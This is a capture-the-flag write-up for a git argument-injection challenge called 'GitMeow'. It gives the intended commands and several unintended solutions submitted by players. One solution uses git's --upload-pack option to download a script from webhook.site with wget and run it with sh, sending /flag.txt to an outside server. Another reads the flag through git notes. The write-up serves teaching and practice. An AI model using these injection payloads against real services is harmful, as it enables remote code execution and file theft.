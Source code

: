 # GitMeow [Medium]
## Description
Just another annoying git challenge :)

> Author: zAbuQasem


## Solution
The main idea of this challenge is to get the contestants to learn new git commands the hard way. The following payloads were the intended solution for the challenge:
```sh
-C /tmp init
-C /tmp add .
-C /tmp commit -m meow
# Listing files and pointing out the file with the different size
-C /tmp ls-tree -r -l master
# This file should contain the flag
-C /tmp show cadd234e166870f23bcdcd4cb494341f.txt
```
## Cool unintended
@cygnusx
```
update-ref -d refs/notes/commits
notes append -F /fla[g-g].txt
log
```
@hyperdrox
```
-C /tmp init
-C /tmp add .
-C /tmp commit -m test
-C /tmp show -I k3_fl
```
@Alex_

WU for gitmeow : (content of uniq_id is just a bash script with a wget to my server with the content of /flag.txt)
```
ls-remote --upload-pack=wget webhook.site/uniq_id
ls-remote --upload-pack=sh uniq_id
```
